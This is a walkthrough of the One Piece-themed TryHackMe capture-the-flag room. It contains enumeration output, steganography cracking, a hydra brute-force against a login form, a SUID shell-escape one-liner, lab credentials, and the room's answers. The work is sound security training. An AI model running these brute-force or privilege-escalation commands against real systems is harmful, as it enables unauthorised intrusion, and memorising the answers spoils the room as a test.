


# One Piece

A CTF room based on the wonderful manga One Piece. Can you become the Pirate King?

[One Piece](https://tryhackme.com/room/ctfonepiece65)

- Network Enumeration
- FTP Enumeration
- Steganography
- Web Poking
- Crypthography
  - Base32
  - Base64
  - Base85
  - Base91
  - Morse Code
  - Binary
  - Hex
- OSINT
- Web Enumeration
- Reverse Enigieering
- Stored Passwords & Keys

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Set Sail

Welcome to the One Piece room.

Your dream is to find the One Piece and hence to become the Pirate King.

Once the VM is deployed, you will be able to enter a World full of Pirates.

Please notice that pirates do not play fair. They can create rabbit holes to trap you.

This room may be a bit different to what you are used to:

- Required skills to perform the intended exploits are pretty basic.
- However, solving the (let's say) "enigmas" to know what you need to do may be trickier.

This room is some sort of game, some sort of puzzle.

Please note that if you are currently reading/watching One Piece and if you did not finish Zou arc, you will get spoiled during this room.

1. Deploy the machine and hoist the sails

`No answer needed`

## Task 2 Road Poneglyphs

In order to reach Laugh Tale, the island where the One Piece is located, you must collect the 4 Road Poneglyphs.

```
kali@kali:~/CTFs/tryhackme/One Piece$ sudo nmap -A -sS -sC -sV -O 10.10.93.198
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-11 12:31 CEST
Nmap scan report for 10.10.93.198
Host is up (0.061s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             187 Jul 26 07:27 welcome.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.106.222
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 01:18:18:f9:b7:8a:c3:6c:7f:92:2d:93:90:55:a1:29 (RSA)
|   256 cc:02:18:a9:b5:2b:49:e4:5b:77:f9:6e:c2:db:c9:0d (ECDSA)
|_  256 b8:52:72:e6:2a:d5:7e:56:3d:16:7b:bc:51:8c:7b:2a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: New World
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/11%OT=21%CT=1%CU=35961%PV=Y%DS=2%DC=T%G=Y%TM=5F82DF
OS:24%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=108%TI=Z%CI=I%II=I%TS=A)SE
OS:Q(SP=100%GCD=1%ISR=108%TI=Z%II=I%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%
OS:O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2
OS:=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNS
OS:NW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   32.28 ms 10.8.0.1
2   63.04 ms 10.10.93.198

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.79 seconds
```

```
kali@kali:~/CTFs/tryhackme/One Piece$ ftp 10.10.93.198
Connected to 10.10.93.198.
220 (vsFTPd 3.0.3)
Name (10.10.93.198:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        0            4096 Jul 26 07:41 .
drwxr-xr-x    3 0        0            4096 Jul 26 07:41 ..
drwxr-xr-x    2 0        0            4096 Jul 26 07:42 .the_whale_tree
-rw-r--r--    1 0        0             187 Jul 26 07:27 welcome.txt
226 Directory send OK.
ftp> get welcome.txt
local: welcome.txt remote: welcome.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for welcome.txt (187 bytes).
226 Transfer complete.
187 bytes received in 0.00 secs (956.1110 kB/s)
ftp> cd .the_whale_tree
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jul 26 07:42 .
drwxr-xr-x    3 0        0            4096 Jul 26 07:41 ..
-rw-r--r--    1 0        0            8652 Jul 26 07:42 .road_poneglyph.jpeg
-rw-r--r--    1 0        0            1147 Jul 26 07:42 .secret_room.txt
226 Directory send OK.
ftp> get .road_poneglyph.jpeg
local: .road_poneglyph.jpeg remote: .road_poneglyph.jpeg
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .road_poneglyph.jpeg (8652 bytes).
226 Transfer complete.
8652 bytes received in 0.00 secs (4.8309 MB/s)
ftp> get .secret_room.txt
local: .secret_room.txt remote: .secret_room.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .secret_room.txt (1147 bytes).
226 Transfer complete.
1147 bytes received in 0.00 secs (2.4471 MB/s)
ftp> exit
221 Goodbye.
```

```
kali@kali:~/CTFs/tryhackme/One Piece$ cat welcome.txt
Welcome to Zou. It is an island located on the back of a massive, millennium-old elephant named Zunesha that roams the New World.
Except this, there is not much to say about this island.
```

```
kali@kali:~/CTFs/tryhackme/One Piece$ cat .secret_room.txt
Inuarashi: You reached the center of the Whale, the majestic tree of Zou.
Nekomamushi: We have hidden this place for centuries.
Inuarashi: Indeed, it holds a secret.
Nekomamushi: Do you see this red stele ? This is a Road Poneglyph.
Luffy: A Road Poneglyph ??
Inuarashi: There are four Road Poneglyphs around the world. Each of them gives one of the key to reach Laugh Tale and to find the One Piece.
Luffy: The One Piece ?? That's my dream ! I will find it and I will become the Pirate King !!!
Nekomamushi: A lot have tried but only one succeeded over the centuries, Gol D Roger, the former Pirate King.
Inuarashi: It is commonly known that both Emperors, Big Mom and Kaido, own a Road Poneglyph but no one knows where is the last one.
Nekomamushi: The other issue is the power of Big Mom and Kaido, they are Emperor due to their strength, you won't be able to take them down easily.
Luffy: I will show them, there can be only one Pirate King and it will be me !!
Inuarashi: There is another issue regarding the Road Poneglyph.
Nekomamushi: They are written in an ancient language and a very few people around the world can actually read them.
```

```
kali@kali:~/CTFs/tryhackme/One Piece$ steghide extract -sf .road_poneglyph.jpeg
Enter passphrase:
wrote extracted data to "road_poneglyphe1.txt".
kali@kali:~/CTFs/tryhackme/One Piece$ cat road_poneglyphe1.txt
FUWS2LJNEAWS2LJNFUQC4LJNFUWSALRNFUWS2IBNFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWSALJNFUWS2IBOFUWS2LJAFUWS2LJNEAWS2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LIKFUWS2LJNEAWS2LJNFUQC4LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAXC2LJNFUQC2LJNFUWSALRNFUWS2IBNFUWS2LJAFYWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBOFUWS2LJAFUWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNEAWS2LJNFUQC4LJNFUWSALJNFUWS2IBOFUWS2LIKFUWS2LJNEAWS2LJNFUQC4LJNFUWSALRNFUWS2IBOFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBOFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWSALJNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWSALRNFUWS2IBNFUWS2LJAFUWS2LJNEAXC2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LIKFUWS2LJNEAWS2LJNFUQC4LJNFUWSALRNFUWS2IBNFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAXC2LJNFUQC4LJNFUWSALJNFUWS2IBNFUWS2LJAFYWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNEAWS2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2IBOFUWS2LIKFUWS2LJNEAWS2LJNFUQC4LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBOFUWS2LJAFUWS2LJNEAWS2LJNFUQC4LJNFUWSALJNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNEAWS2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFYWS2LJNEAWS2LJNFUQC4LJNFUWSALJNFUWS2IBOFUWS2LIKFUWS2LJNEAWS2LJNFUQC4LJNFUWSALRNFUWS2IBNFUWS2LJAFYWS2LJNEAWS2LJNFUQC2LJNFUWQULJNFUWS2IBNFUWS2LJAFYWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LJAFUWS2LJNBIWS2LJNFUQC2LJNFUWSALRNFUWS2IBOFUWS2LJAFUWS2LJNEAWS2LJNFUQC4LJNFUWSALRNFUWS2CRNFUWS2LJAFUWS2LJNEAXC2LJNFUQC4LJNFUWSALJNFUWS2IBNFUWS2LJAFYWS2LJNEAWS2LJNFUFC2LJNFUWSALJNFUWS2IBOFUWS2LJAFUWS2LJNEAWS2LJNFUQC2LJNFUWSALJNFUWS2IBNFUWS2LIK
kali@kali:~/CTFs/tryhackme/One Piece$
```

[view-source:http://10.10.93.198/](view-source:http://10.10.93.198/)

```html
<!DOCTYPE html>
<html>
  <head lang="en">
    <title>New World</title>
    <link rel="stylesheet" href="./css/style.css" />
    <link rel="icon" href="./images/luffy_icon.png" type="image/png" />
    <meta charset="utf-8" />
  </head>

  <body>
    
    <p>
      Straw Hat Luffy and his crew are sailing in the New World. <br />
      They have only one thing in mind, reach the One Piece and hence become the
      Pirate King, that is to say the freest man in the world.<br />
      <br />
      Unfortunately, your navigator Nami lost the Log Pose and as you know, it
      is not possible to properly steer without it.<br />
      You need to find the Log Pose to be able to reach the next island.
      <!--J5VEKNCJKZEXEUSDJZEE2MC2M5KFGWJTJMYFMV2PNE2UMWLJGFBEUVKWNFGFKRJQKJLUS5SZJBBEOS2FON3U4U3TFNLVO2ZRJVJXARCUGFHEOS2YKVWUWVKON5HEOQLVKEZGI3S2GJFEOSKTPBRFAMCGKVJEIODQKJUWQ3KMIMYUCY3LNBGUWMCFO5IGYQTWKJ4VMRK2KRJEKWTMGRUVCMCKONQTGTJ5-->
    </p>
  </body>
</html>
```

```
kali@kali:~/CTFs/tryhackme/One Piece$ echo -n 'J5VEKNCJKZEXEUSDJZEE2MC2M5KFGWJTJMYFMV2PNE2UMWLJGFBEUVKWNFGFKRJQKJLUS5SZJBBEOS2FON3U4U3TFNLVO2ZRJVJXARCUGFHEOS2YKVWUWVKON5HEOQLVKEZGI3S2GJFEOSKTPBRFAMCGKVJEIODQKJUWQ3KMIMYUCY3LNBGUWMCFO5IGYQTWKJ4VMRK2KRJEKWTMGRUVCMCKONQTGTJ5' | base32 -d | base64 -d
:18!R+D#G3F`M&7+EV:.Eb-A%Eb-A4Eb/`pF(K05+>Yi51*COSF)u&)Ch4`.CgggbF!,[?ATD?)F(f,-@rHL+A0>PoG%De4Df^"CBlks
```

`Nami ensures there are precisely 3472 possible places where she could have lost it.`

[https://github.com/1FreyR/LogPose](https://github.com/1FreyR/LogPose)

```
kali@kali:~/CTFs/tryhackme/One Piece$ gobuster dir -u 10.10.93.198 -w LogPose.txt -x txt,php,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.93.198
[+] Threads:        10
[+] Wordlist:       LogPose.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,php,html
[+] Timeout:        10s
===============================================================
2020/10/11 12:49:28 Starting gobuster
===============================================================
/dr3ssr0s4.html (Status: 200)
Progress: 2041 / 3472 (58.78%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/10/11 12:49:58 Finished
===============================================================
```

[http://10.10.93.198/dr3ssr0s4.html](http://10.10.93.198/dr3ssr0s4.html)

`Donquixote Doflamingo`

[view-source:http://10.10.93.198/css/dressrosa_style.css](view-source:http://10.10.93.198/css/dressrosa_style.css)

```css
#container {
  height: 75vh;
  width: 90vw;
  margin: 1vh;
  background-image: url("../king_kong_gun.jpg");
  background-repeat: no-repeat;
  background-position: center;
  background-size: cover;
  display: flex;
  flex-direction: row;
  justify-content: center;
  align-items: flex-start;
  align-content: flex-start;
  flex-wrap: wrap;
  position: relative;
}
```

```
kali@kali:~/CTFs/tryhackme/One Piece$ exiftool king_kong_gun.jpg
ExifTool Version Number         : 12.06
File Name                       : king_kong_gun.jpg
Directory                       : .
File Size                       : 42 kB
File Modification Date/Time     : 2020:07:26 13:26:42+02:00
File Access Date/Time           : 2020:10:11 12:57:18+02:00
File Inode Change Date/Time     : 2020:10:11 12:57:03+02:00
File Permissions                : rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 72
Y Resolution                    : 72
Comment                         : Doflamingo is /ko.jpg
Image Width                     : 736
Image Height                    : 414
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 736x414
Megapixels                      : 0.305
```

```
strings ko.png

Congratulations, this is the Log Pose that should lead you to the next island: /wh0l3_c4k3.php
```

[http://10.10.93.198/wh0l3_c4k3.php](http://10.10.93.198/wh0l3_c4k3.php)

```html
<p>
  You are on Whole Cake Island. This is the territory of Big Mom, one of the 4
  Emperors, this is to say one of the 4 pirates the closest to the One Piece but
  also the strongest.<br />
  Big Mom chases you and want to destroy you. It is unthinkable to fight her
  directly.<br />
  You need to find a way to appease her.
  <!--Big Mom likes cakes-->
</p>
```



`CakeForYou`



[http://10.10.93.198/r4nd0m.html](http://10.10.93.198/r4nd0m.html)

`Buggy the Clown`

[view-source:http://10.10.93.198/buggy_games/brain_teaser.js](view-source:http://10.10.93.198/buggy_games/brain_teaser.js)

```js
var xDegOld = 0;
var yDegOld = 0;
var xDegNew = 0;
var yDegNew = 0;
var xCoordNew = 0;
var yCoordNew = 0;
var screenWidth = document.querySelector("body").clientWidth;
console.log(screenWidth);
var screenHeight = document.querySelector("body").clientHeight;
console.log(screenHeight);
var cube = document.getElementById("container__animation");

function degDetermination() {
  xDegOld = xDegNew;
  yDegOld = yDegNew;
  xDegNew = -(-180 + (yCoordNew / screenHeight) * 360) / 4;
  yDegNew = (-180 + (xCoordNew / screenWidth) * 360) / 4;
}

function cubeMovement() {
  degDetermination();
  cube.animate(
    [
      { transform: "rotateX(" + xDegOld + "deg) rotateY(" + yDegOld + "deg)" },
      { transform: "rotateX(" + xDegNew + "deg) rotateY(" + yDegNew + "deg)" },
    ],
    {
      duration: 10,
    }
  );
  cube.style.transform =
    "rotateX(" + xDegNew + "deg) rotateY(" + yDegNew + "deg)";
}

document.getElementById("back").textContent = "Log Pose: /0n1g4sh1m4.php";

window.addEventListener("mousemove", function (e) {
  xCoordNew = e.clientX;
  yCoordNew = e.clientY;
  cubeMovement();
});
```

[http://10.10.93.198/0n1g4sh1m4.php](http://10.10.93.198/0n1g4sh1m4.php)

`Kaido of the Beasts`

```
kali@kali:~/CTFs/tryhackme/One Piece$ stegcracker kaido.jpeg /usr/share/wordlists/rockyou.txt
StegCracker 2.0.9 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2020 - Luke Paris (Paradoxis)

Counting lines in wordlist..
Attacking file 'kaido.jpeg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: imabeast
Tried 106372 passwords
Your file has been written to: kaido.jpeg.out
imabeast
kali@kali:~/CTFs/tryhackme/One Piece$ cat kaido.jpeg.out
Username:K1ng_0f_th3_B3@sts

kali@kali:~/CTFs/tryhackme/One Piece$ hydra -l K1ng_0f_th3_B3@sts -P /usr/share/wordlists/rockyou.txt 10.10.93.198 http-post-form "/0n1g4sh1m4.php:user=^USER^&password=^PASS^&submit_creds=Login:ERROR" -t 64
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-11 13:52:40
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking http-post-form://10.10.93.198:80/0n1g4sh1m4.php:user=^USER^&password=^PASS^&submit_creds=Login:ERROR
[STATUS] 10070.00 tries/min, 10070 tries in 00:01h, 14334329 to do in 23:44h, 64 active
[80][http-post-form] host: 10.10.93.198   login: K1ng_0f_th3_B3@sts   password: thebeast
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-11 13:54:35
```

```
Unfortunately, the location of this last Poneglyph is unspecified.
```

```
From_Base32('A-Z2-7=',true)
From_Morse_Code('Space','Line feed')
From_Binary('Space')
From_Hex('Auto')
From_Base58('123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz',true)
From_Base64('A-Za-z0-9+/=',true)
```

`M0nk3y_D_7uffy:1_w1ll_b3_th3_p1r@t3_k1ng!`

[http://10.10.93.198/unspecified](http://10.10.93.198/unspecified)

```
M0nk3y_D_7uffy@Laugh-Tale:~$ ls -la
total 56
drwxr-xr-x  8 M0nk3y_D_7uffy luffy 4096 Jul 29 07:32 .
drwxr-xr-x  4 root           root  4096 Jul 26 07:54 ..
-rw-------  1 M0nk3y_D_7uffy luffy   14 Aug 14 15:25 .bash_history
-rw-r--r--  1 M0nk3y_D_7uffy luffy  220 Jul 26 07:54 .bash_logout
-rw-r--r--  1 M0nk3y_D_7uffy luffy 3771 Jul 26 07:54 .bashrc
drwx------ 11 M0nk3y_D_7uffy luffy 4096 Jul 29 07:21 .cache
drwx------ 11 M0nk3y_D_7uffy luffy 4096 Jul 29 07:15 .config
drwx------  3 M0nk3y_D_7uffy luffy 4096 Jul 29 07:21 .gnupg
-rw-------  1 M0nk3y_D_7uffy luffy  334 Jul 29 07:14 .ICEauthority
-rw-r--r--  1 root           root   283 Jul 26 08:23 laugh_tale.txt
drwx------  3 M0nk3y_D_7uffy luffy 4096 Jul 29 07:14 .local
drwx------  5 M0nk3y_D_7uffy luffy 4096 Jul 29 07:15 .mozilla
-rw-r--r--  1 M0nk3y_D_7uffy luffy  807 Jul 26 07:54 .profile
drwx------  2 M0nk3y_D_7uffy luffy 4096 Jul 29 07:21 .ssh
M0nk3y_D_7uffy@Laugh-Tale:~$ cat laugh_tale.txt
Finally, we reached Laugh Tale.
All is left to do is to find the One Piece.
Wait, there is another boat in here.
Be careful, it is the boat of Marshall D Teach, one of the 4 Emperors. He is the one that led your brother Ace to his death.
You want your revenge. Let's take him down !
```

```
find / -type f -perm -4000 -exec ls -l {} \; 2> /dev/null
```

`-rwsr-xr-x 1 7uffy_vs_T3@ch teach 4526456 Jul 17 08:50 /usr/bin/gomugomunooo_king_kobraaa`

```
M0nk3y_D_7uffy@Laugh-Tale:~$ /usr/bin/gomugomunooo_king_kobraaa -c 'import os; os.execl("/bin/sh", "sh", "-p")'
$ whoami
7uffy_vs_T3@ch
$ pwd
/home/luffy
$ cd ..
$ ls -la
total 16
drwxr-xr-x  4 root           root  4096 Jul 26 07:54 .
drwxr-xr-x 24 root           root  4096 Jul 29 08:04 ..
drwxr-xr-x  8 M0nk3y_D_7uffy luffy 4096 Jul 29 07:32 luffy
drwxr-xr-x  7 7uffy_vs_T3@ch teach 4096 Jul 26 08:33 teach
$ cd teach
$ ls -la
total 56
drwxr-xr-x  7 7uffy_vs_T3@ch teach 4096 Jul 26 08:33 .
drwxr-xr-x  4 root           root  4096 Jul 26 07:54 ..
-rw-------  1 7uffy_vs_T3@ch teach    1 Aug 14 15:24 .bash_history
-rw-r--r--  1 7uffy_vs_T3@ch teach  220 Jul 26 07:09 .bash_logout
-rw-r--r--  1 7uffy_vs_T3@ch teach 3771 Jul 26 07:09 .bashrc
drwx------ 11 7uffy_vs_T3@ch teach 4096 Jul 26 08:45 .cache
drwx------ 11 7uffy_vs_T3@ch teach 4096 Jul 26 08:45 .config
drwx------  3 7uffy_vs_T3@ch teach 4096 Jul 26 07:16 .gnupg
-rw-------  1 7uffy_vs_T3@ch teach  334 Jul 26 07:15 .ICEauthority
drwx------  3 7uffy_vs_T3@ch teach 4096 Jul 26 07:15 .local
-r--------  1 7uffy_vs_T3@ch teach  479 Jul 26 08:06 luffy_vs_teach.txt
-r--------  1 7uffy_vs_T3@ch teach   37 Jul 26 08:02 .password.txt
-rw-r--r--  1 7uffy_vs_T3@ch teach  807 Jul 26 07:09 .profile
drwx------  2 7uffy_vs_T3@ch teach 4096 Jul 26 07:16 .ssh
-rw-r--r--  1 7uffy_vs_T3@ch teach    0 Jul 26 07:16 .sudo_as_admin_successful
$ cat luffy_vs_teach.txt
This fight will determine who can take the One Piece and who will be the next Pirate King.
These 2 monsters have a matchless will and none of them can let the other prevail.
Each of them have the same dream, be the Pirate King.
For one it means: Take over the World.
For the other: Be the freest man in the World.
Each of their hit creates an earthquake felt on the entire island.
But in the end, Luffy thanks to his willpower won the fight.
Now, he needs to find the One Piece.
$ cat .password.txt
7uffy_vs_T3@ch:Wh0_w1ll_b3_th3_k1ng?
$
```

```
root@Laugh-Tale:~# ls -la
ls -la
total 56
drwxr-xr-x  7 7uffy_vs_T3@ch teach 4096 Jul 26 08:33 .
drwxr-xr-x  4 root           root  4096 Jul 26 07:54 ..
-rw-------  1 7uffy_vs_T3@ch teach    1 Aug 14 15:24 .bash_history
-rw-r--r--  1 7uffy_vs_T3@ch teach  220 Jul 26 07:09 .bash_logout
-rw-r--r--  1 7uffy_vs_T3@ch teach 3771 Jul 26 07:09 .bashrc
drwx------ 11 7uffy_vs_T3@ch teach 4096 Jul 26 08:45 .cache
drwx------ 11 7uffy_vs_T3@ch teach 4096 Jul 26 08:45 .config
drwx------  3 7uffy_vs_T3@ch teach 4096 Jul 26 07:16 .gnupg
-rw-------  1 7uffy_vs_T3@ch teach  334 Jul 26 07:15 .ICEauthority
drwx------  3 7uffy_vs_T3@ch teach 4096 Jul 26 07:15 .local
-r--------  1 7uffy_vs_T3@ch teach  479 Jul 26 08:06 luffy_vs_teach.txt
-r--------  1 7uffy_vs_T3@ch teach   37 Jul 26 08:02 .password.txt
-rw-r--r--  1 7uffy_vs_T3@ch teach  807 Jul 26 07:09 .profile
drwx------  2 7uffy_vs_T3@ch teach 4096 Jul 26 07:16 .ssh
-rw-r--r--  1 7uffy_vs_T3@ch teach    0 Jul 26 07:16 .sudo_as_admin_successful
root@Laugh-Tale:~# cd ~
cd ~
root@Laugh-Tale:~# pwd
pwd
/home/teach
root@Laugh-Tale:~# cd /root
cd /t
bash: cd: /t: No such file or directory
root@Laugh-Tale:~# grep -iRl "One Piece" /home /usr 2> /dev/null
/usr/share/mysterious/on3_p1ec3.txt
root@Laugh-Tale:~# cat /usr/share/mysterious/on3_p1ec3.txt
cat /usr/share/mysterious/on3_p1ec3.txt
One Piece: S3cr3ts_0f_tH3_W0rlD_&_0f_Th3_P@st$
```

1. What is the name of the tree that contains the 1st Road Poneglyph?

`the whale`

2. What is the name of the 1st pirate you meet navigating the Apache Sea?

`Donquixote Doflamingo`

3. What is the name of the 2nd island you reach navigating the Apache Sea?

`Whole Cake`

4. What is the name of the friend you meet navigating the Apache Sea?

`Buggy the Clown`

5. What is the name of the 2nd Emperor you meet navigating the Apache Sea?

`Kaido of the Beasts`

6. What is the hidden message of the 4 Road Poneglyphs?

`M0nk3y_D_7uffy:1_w1ll_b3_th3_p1r@t3_k1ng!`

## Task 3 Laugh Tale

You are now able to reach Laugh Tale. Can you find the One Piece?

1. Who is on Laugh Tale at the same time as Luffy?

`Marshall D Teach`

2. What allowed Luffy to win the fight?

`willpower`

3. What is the One Piece?

`S3cr3ts_0f_tH3_W0rlD_&_0f_Th3_P@st$`
